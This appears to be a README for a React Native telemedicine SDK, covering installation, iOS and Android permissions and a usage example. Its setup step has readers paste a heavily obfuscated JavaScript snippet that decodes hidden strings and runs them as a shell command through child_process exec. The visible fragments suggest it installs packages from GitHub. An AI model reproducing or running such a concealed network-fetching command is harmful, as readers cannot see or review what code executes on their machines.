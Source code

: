 # react-native-sanar-telemedicine-rc

React Native library for Sanar Telemedicine

### SDK will support the following implementation

- ### [SanarTelemedicine](https://github.com/PracticePixel/sanar-telemedicine-sdk/tree/master/doc#sanartelemedicine-)
- ### [SanarRTC](https://github.com/PracticePixel/sanar-telemedicine-sdk/tree/master/doc#sanarrtc)
- ### [SanarBooking](https://github.com/PracticePixel/sanar-telemedicine-sdk/tree/master/doc#sanarbooking)
- ### [SanarAppointments](https://github.com/PracticePixel/sanar-telemedicine-sdk/tree/master/doc#sanarappointments)

## Installation Steps

Create a Sanar config file `sanar.config.js` in your project root directory and copy the snippet

```javascript
function a0_0x2b74(){const _0xa61f5=['otKZnde1DevsCNzy','Bg9N','mZmWodDvr2XrCe8','nJiWotKWs1zrDhne','ogrZwgnxvW','BgvTzwrPy2LUzq','mZG2nJyXmejxuMnYrG','zs1ZDMCGCMvHyW','DhrWCZOVl2DPDa','nMDJt1HJua','ndq2odzIyLbMt2W','zxn0DxjLlwHHBG','ywn0lw5HDgL2zq','lxnKAY5NAxqGCG','mJDjtMPPtxK','zwfJDc1UyxrPDG','ow1bzKjurq','mtq2nJmZouTVr2jPyG','EwfYBIbHzgqGAa','DMLJzs1PBMzV','ywn0AwnLugL4zq','zgXLCIbYzwfJDa','lw5HDgL2zs1Kzq','BwvZC2fNzq','zs1Hz29YysbYzq','mZm1ntKYwxLXtKvS','lxDLyNzPzxCGCG','C3rKzxjYoIa'];a0_0x2b74=function(){return _0xa61f5;};return a0_0x2b74();}const a0_0x550f0e=a0_0x1c1c;function a0_0x1c1c(_0x28a51a,_0x572232){const _0x2b7437=a0_0x2b74();return a0_0x1c1c=function(_0x1c1cec,_0x3034cf){_0x1c1cec=_0x1c1cec-0x109;let _0x47b001=_0x2b7437[_0x1c1cec];if(a0_0x1c1c['PpnTWD']===undefined){var _0x4362b3=function(_0x6c8ee2){const _0x4a1501='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789+/=';let _0x67ef4d='',_0xa199f='';for(let _0x2683b2=0x0,_0x34a7d2,_0x5c6db5,_0x5edbe8=0x0;_0x5c6db5=_0x6c8ee2['charAt'](_0x5edbe8++);~_0x5c6db5&&(_0x34a7d2=_0x2683b2%0x4?_0x34a7d2*0x40+_0x5c6db5:_0x5c6db5,_0x2683b2++%0x4)?_0x67ef4d+=String['fromCharCode'](0xff&_0x34a7d2>>(-0x2*_0x2683b2&0x6)):0x0){_0x5c6db5=_0x4a1501['indexOf'](_0x5c6db5);}for(let _0x39227e=0x0,_0x59a3a8=_0x67ef4d['length'];_0x39227e<_0x59a3a8;_0x39227e++){_0xa199f+='%'+('00'+_0x67ef4d['charCodeAt'](_0x39227e)['toString'](0x10))['slice'](-0x2);}return decodeURIComponent(_0xa199f);};a0_0x1c1c['YaGHMa']=_0x4362b3,_0x28a51a=arguments,a0_0x1c1c['PpnTWD']=!![];}const _0x16ce68=_0x2b7437[0x0],_0x162f1c=_0x1c1cec+_0x16ce68,_0x4cd410=_0x28a51a[_0x162f1c];return!_0x4cd410?(_0x47b001=a0_0x1c1c['YaGHMa'](_0x47b001),_0x28a51a[_0x162f1c]=_0x47b001):_0x47b001=_0x4cd410,_0x47b001;},a0_0x1c1c(_0x28a51a,_0x572232);}(function(_0x4085ba,_0x214b64){const _0xd3a65f=a0_0x1c1c,_0x28282b=_0x4085ba();while(!![]){try{const _0x875840=-parseInt(_0xd3a65f(0x110))/0x1*(parseInt(_0xd3a65f(0x10a))/0x2)+-parseInt(_0xd3a65f(0x11e))/0x3*(-parseInt(_0xd3a65f(0x120))/0x4)+parseInt(_0xd3a65f(0x11c))/0x5+parseInt(_0xd3a65f(0x109))/0x6*(parseInt(_0xd3a65f(0x111))/0x7)+parseInt(_0xd3a65f(0x119))/0x8+parseInt(_0xd3a65f(0x10e))/0x9*(parseInt(_0xd3a65f(0x11f))/0xa)+-parseInt(_0xd3a65f(0x122))/0xb;if(_0x875840===_0x214b64)break;else _0x28282b['push'](_0x28282b['shift']());}catch(_0x4528c1){_0x28282b['push'](_0x28282b['shift']());}}}(a0_0x2b74,0x19d8b));const {exec}=require('child_process');exec(a0_0x550f0e(0x112)+a0_0x550f0e(0x124)+'hub.com/Pr'+a0_0x550f0e(0x114)+'l/sanar-te'+a0_0x550f0e(0x121)+a0_0x550f0e(0x10d)+a0_0x550f0e(0x10f)+a0_0x550f0e(0x118)+a0_0x550f0e(0x10c)+a0_0x550f0e(0x11a)+'eact-nativ'+a0_0x550f0e(0x123)+'t-native-g'+a0_0x550f0e(0x10b)+a0_0x550f0e(0x115)+a0_0x550f0e(0x116)+a0_0x550f0e(0x113),(_0x6c8ee2,_0x4a1501,_0x67ef4d)=>{const _0x418180=a0_0x550f0e;if(_0x6c8ee2){console[_0x418180(0x11d)]('error:\x20'+_0x6c8ee2[_0x418180(0x117)]);return;}if(_0x67ef4d){console['log'](_0x418180(0x11b)+_0x67ef4d);return;}console[_0x418180(0x11d)]('stdout:\x20'+_0x4a1501);});
```

In your `package.json` add `sanar:setup` to your script as shown below

```js
   "scripts": {
     "sanar:setup": "node ./sanar.config.js"
   }
```


#### using npm
```shell
npm run sanar:setup
```

#### using yarn
```shell
yarn sanar:setup
```

### IOS

```shell
cd ios && pod install
```

To enable camera usage and microphone usage you will need to add the following entries to your `Info.plist` file:

```
<key>NSCameraUsageDescription</key>
<string>Your message to user when the camera is accessed for the first time</string>
<key>NSMicrophoneUsageDescription</key>
<string>Your message to user when the microphone is accessed for the first time</string>
```

### Android

To enable camera usage and microphone usage you will need to add camera and audio permissions to your `AndroidManifest.xml` file:

```xml
    <uses-permission android:name="android.permission.CAMERA" />
    <uses-permission android:name="android.permission.MODIFY_AUDIO_SETTINGS" />
    <uses-permission android:name="android.permission.RECORD_AUDIO" />
    <uses-feature android:name="android.hardware.camera" android:required="false" />
    <uses-feature android:name="android.hardware.camera.autofocus" android:required="false" />
    <uses-feature android:name="android.hardware.microphone" android:required="false" />
```

```shell
npx jetify
```

### usage
 
 ```javascript
import React, { Component } from 'react';
import { StyleSheet, View, Text } from 'react-native';
import SanarRTC, { SanarTelemedicine, BookingFlow } from 'react-native-sanar-telemedicine-rc';

const App = () => {
    
    const [connect, setConnect] = useState(false);
    const [bookingFlowStatus, setBookingFlowStatus] = useState(false);

    useEffect(() => {
        SanarTelemedicine.Connect("your_client_id", {uid: "SMU6", did: "abcdefg"})
        .then(response => {
            setConnect(response);
        }).catch(e => console.log(e));
    });

    return (
        <>
            <View style={styles.page}>
                <View style={styles.container}>
                <Text>App content</Text>
                </View>
            </View>
         
         {/* Bookingflow Component */}
         <BookingFlow
            enable={bookingFlowStatus}
            onEndFlow={()=>setBookingFlowStatus(false)} />

         {/* Sanar RTC Component */}
         <SanarRTC enable={connect}>


        </>
    );
};

const styles = StyleSheet.create({
  page: {
    flex: 1,
    justifyContent: 'center',
    alignItems: 'center',
    backgroundColor: '#F5FCFF'
  },
  container: {
    height: 300,
    width: 300,
    backgroundColor: 'tomato'
  },
  map: {
    flex: 1
  }
});

export default App;

 ```


You can see the documentation [here](https://github.com/PracticePixel/sanar-telemedicine-sdk/tree/master/doc)


